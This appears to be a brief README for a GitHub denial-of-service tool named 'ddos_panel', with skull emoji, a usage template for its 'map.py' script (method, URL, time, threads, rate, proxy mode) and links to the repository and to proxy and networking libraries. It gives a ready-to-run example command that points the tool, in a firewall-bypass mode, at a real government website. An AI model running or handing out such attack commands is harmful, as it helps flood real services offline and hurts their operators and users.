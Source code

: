 # ddos_panel
☠️☠️
map.py waf https://www.aeoi.org.ir/ 60 100 100 1
*********************
map.py <method> <url> <time> <thread> <rpc> <proxy>
*********************
proxy mode 1 , 2 , 3 , 4
https://github.com/MR-MRX-etc/ddos_panel.git
git clone https://github.com/SecureAuthCorp/impacket.git
https://github.com/MatrixTM/PyRoxy.git
